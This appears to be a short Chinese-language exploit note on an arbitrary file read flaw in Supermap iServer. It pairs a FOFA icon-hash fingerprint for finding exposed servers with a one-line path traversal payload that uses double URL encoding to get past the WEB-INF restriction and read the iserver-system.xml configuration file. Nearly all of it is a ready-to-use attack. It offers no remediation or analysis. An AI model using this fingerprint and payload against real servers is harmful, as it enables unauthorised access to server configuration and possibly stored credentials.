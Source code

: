 ## Supermap iServer任意文件读取漏洞

## fofa

icon_hash="-1656662001"

## poc
```
/iserver/output/../WEB-IN%2546/iserver-system.xml
```
